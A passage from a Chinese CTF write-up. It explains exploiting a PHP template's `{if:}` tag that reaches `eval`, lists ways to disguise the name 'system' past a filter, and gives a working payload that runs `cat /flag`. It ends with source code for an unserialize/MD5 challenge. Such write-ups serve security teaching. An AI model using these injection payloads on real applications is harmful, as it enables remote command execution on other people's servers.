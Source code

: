 ```php
    } else {
        return array( $s );
    }
}
```

关键就是

```php
@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
```

要进到if分支里，首先要满足正则`$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';`，在[https://regexr.com/](https://regexr.com/)研究一下，可以构造出`{if: x}x{end if}`

![19](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/c3c32845da87c4a27608a419ca5e796a.png)

本地测试把highlight_file去掉，在那个`eval`前一行加个`echo 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}';`打印一下

![20](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/61782edcd8532a4aa6763c2c3dc41021.png)

得到注入的位置，然后就是绕过过滤，这个网上有很多文章，比如

```php
system("ls")
"system"("ls")
(system)(ls)
(sy.(st).em)/**/(ls)
"\x73\x79\x73\x74\x65\x6d"("ls")
// ......
```

使用`?a={if: (sy.(st).em)('cat /flag')}x{end if}`得到flag.

![21](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/6635d73828d6bc95234510c0971d05c0.png)

### easytrick

```php
 <?php
class trick{
    public $trick1;
    public $trick2;
    public function __destruct(){
        $this->trick1 = (string)$this->trick1;
        if(strlen($this->trick1) > 5 || strlen($this->trick2) > 5){
            die("你太长了");
        }
        if($this->trick1 !== $this->trick2 && md5($this->trick1) === md5($this->trick2) && $this->trick1 != $this->trick2){
            echo file_get_contents("/flag");
        }
    }
}
highlight_file(__FILE__);
unserialize($_GET['trick']);
```
